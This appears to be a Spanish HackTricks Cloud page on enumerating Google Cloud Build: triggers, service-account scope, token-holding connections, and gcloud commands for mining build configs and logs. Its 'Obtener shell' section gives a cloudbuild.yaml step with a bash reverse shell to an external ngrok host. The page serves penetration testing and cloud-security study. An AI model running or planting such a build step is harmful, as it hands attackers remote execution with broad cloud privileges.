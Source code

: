 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de Github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Google Cloud Build es una plataforma gestionada de CI/CD que **automatiza los procesos de construcción y lanzamiento de software**, integrándose con **repositorios de código fuente** y soportando una amplia gama de lenguajes de programación. **Permite a los desarrolladores construir, probar y desplegar código automáticamente** mientras ofrece flexibilidad para personalizar pasos de construcción y flujos de trabajo.

Cada Disparador de Cloud Build está **relacionado con un Repositorio Cloud o directamente conectado con un repositorio externo** (Github, Bitbucket y Gitlab).

{% hint style="success" %}
No encontré ninguna manera de robar el token de Github/Bitbucket desde aquí o desde los Repositorios Cloud porque cuando se descarga el repositorio se accede a través de una URL [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Eventos

Cloud Build puede ser activado si:

* **Push a una rama**: Especifica la rama
* **Push de una nueva etiqueta**: Especifica la etiqueta
* **Pull request**: Especifica la rama que recibe el PR
* **Invocación Manual**
* **Mensaje Pub/Sub:** Especifica el tema
* **Evento de Webhook**: Expondrá una URL HTTPS y la solicitud debe ser autenticada con un secreto

### Ejecución

Hay 3 opciones:

* Un yaml/json **especificando los comandos** a ejecutar. Usualmente: `/cloudbuild.yaml`
* Solo uno que puede ser especificado "en línea" en la consola web y en la cli
* Opción más común
* Relevante para acceso no autenticado
* Un **Dockerfile** para construir
* Un **Buildpack** para construir

### Permisos de SA

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **usar todos los privilegios.** Si **no se especifica una SA** (como cuando se hace submit) se **usará la SA predeterminada** `<proj-number>@cloudbuild.gserviceaccount.com`.

Por defecto no se otorgan permisos, pero es bastante fácil conceder algunos:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Aprobaciones

Es posible configurar un Cloud Build para **requerir aprobaciones para la ejecución de construcciones** (deshabilitado por defecto).

### Conexiones & Repositorios

Se pueden crear conexiones sobre:

* **GitHub:** Mostrará un aviso de OAuth pidiendo permisos para **obtener un token de Github** que se almacenará dentro del **Secret Manager.**
* **GitHub Enterprise:** Pedirá instalar una **GithubApp**. Se creará un **token de autenticación** de tu host de GitHub Enterprise y se almacenará en este proyecto como un secreto de **Secret Manager**.
* **GitLab / Enterprise:** Necesitas **proporcionar el token de acceso a la API y el token de acceso a la API de Lectura** que se almacenará en el **Secret Manager.**

Una vez generada una conexión, puedes usarla para **vincular repositorios a los que la cuenta de Github tiene acceso**.

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ten en cuenta que los repositorios conectados con este método están **disponibles solo en Disparadores que usan la 2ª generación.**
{% endhint %}

### Conectar un Repositorio

Esto no es lo mismo que una **`conexión`**. Esto permite **diferentes** formas de obtener **acceso a un repositorio de Github o Bitbucket** pero **no genera un objeto de conexión, pero sí genera un objeto de repositorio (de 1ª generación).**

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para guardar los archivos del disparador**. Esto sucede por ejemplo en el ejemplo que GCP ofrece con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de Storage llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en configuraciones de compilación y registros**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalación de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso No Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
